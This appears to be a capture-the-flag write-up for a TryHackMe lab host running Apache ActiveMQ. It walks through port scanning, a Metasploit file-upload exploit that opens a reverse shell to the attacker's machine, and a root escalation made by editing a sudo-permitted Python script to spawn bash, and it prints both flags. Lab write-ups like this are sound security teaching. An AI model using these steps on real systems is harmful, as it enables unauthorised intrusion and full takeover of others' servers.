






## TL;DR

In this challenge we starts from `RCE` using metasploit module on `activeMQ`, and then privilege escalate to `root` using sudo on python script we control.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `1883` with unknown service, port `8161` with http service and port `43213` with unknown service.  
```bash
PORT      STATE SERVICE    REASON         VERSION                                                                                                            
22/tcp    open  ssh        syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                      
| ssh-hostkey:                                                                                                                                               
|   3072 bf:6b:45:1b:0d:92:c7:41:2b:20:89:81:f7:c6:38:3e (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdU9UCGRxXezkSXdlPWRFVybZtQol8rTYc2Xq4SASK3vqQcYTh+Iv/hOPG/ptEUe1F9KFa4qTTDLjqDeVHF5HsctYqjYXw+BDe169skN9hdmaKMuKAvfBTKH7nBfhTfCYHU8NDdZ2SpnIMDPDo+kxniHlSgXyjUtDqw7wTjSCgmTGEdZvJYqwyhEShdty0vo4N4NNtem9Ab7E7uVP8m/FVeEEbx9riA47J8ayJLzvHKoYtl25tzyEKonMTg6X7nncivtTgTaHBCIVd1PjpeQVMMYS/bJAtTrWijKKQ1MG1PuUe1Erj+iBiKfsoVIp9Fcdo0Xuxdfo8CiqD1MSUOiK5T9x/+tWoKayx/ckxW2EEoZgP6bIDxKtWEolf7Jx7lOloqnpOsMwjitkp5JKwwjgZA7zzcVsBnK3ZzMC//G4agTiI/j38S9ZkRW1IqEPiSGh1uUkZdxj8GKTEF1EZVl+ng/z9WusuBW8XSaCqNe/IGo6SJjKuzfSYngz3wuO/VD8=
|   256 2b:88:f5:b2:a8:5e:a3:d5:ea:7b:ee:69:10:cb:98:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBupnlX/ZUzgD2scO6GxKmXGKTExrlWhNtjwjY8DoBTPHQjoH9NidOBz2BusALKK1mFXTj8GkCRcLWQMHtradQ4=
|   256 75:93:29:30:b4:bf:ed:6e:04:92:e6:88:4d:68:12:51 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLKrLWNfdOcezLgdFzkoebXuAgjW5/Z0mBmvUIQK9dj
1883/tcp  open  mqtt?      syn-ack ttl 62
|_mqtt-subscribe: The script encountered an error: ssl failed
8161/tcp  open  http       syn-ack ttl 62 Jetty 7.6.9.v20130131
|_http-favicon: Unknown favicon MD5: 05664FB0C7AFCD6436179437E31F3AA6
|_http-title: Apache ActiveMQ
|_http-server-header: Jetty(7.6.9.v20130131)
| http-methods: 
|_  Supported Methods: GET HEAD
43213/tcp open  tcpwrapped syn-ack ttl 62
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `broker.thm` to my `/etc/hosts`

### Exploit RCE on apache activeMQ

First, I visited port `8161`, we can see there is some apache activeMQ there



I googled and found this `RCE` exploit module of metasploit [https://www.rapid7.com/db/modules/exploit/multi/http/apache_activemq_upload_jsp/](https://www.rapid7.com/db/modules/exploit/multi/http/apache_activemq_upload_jsp/).
```bash
msf exploit(multi/http/apache_activemq_upload_jsp) > set RHOSTS 10.67.144.37
RHOSTS => 10.67.144.37
msf exploit(multi/http/apache_activemq_upload_jsp) > set LPORT 1337
LPORT => 1337
msf exploit(multi/http/apache_activemq_upload_jsp) > set LHOST tun0
LHOST => 192.168.138.59
msf exploit(multi/http/apache_activemq_upload_jsp) > run
```



and we got our reverse shell, let's paste the payload from penelope



we can grab our first flag:
```bash
activemq@activemq:/opt/apache-activemq-5.9.0$ cat flag.txt 
THM{you_got_a_m3ss4ge}
```

### Privilege Escalation to Root using sudo on python script we control

I checked for sudo privileges, we can execute some python script as root:
```bash
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

We are the owners of the file `/opt/apache-activemq-5.9.0/subscribe.py`, let's add this lines to the file:
```py
import os
os.system("/bin/bash")
```



Now, we can execute this file as root and get root shell:
```bash
sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```



and grab the root flag:
```bash
root@activemq:~# cat root.txt 
THM{br34k_br0k3_br0k3r}
```


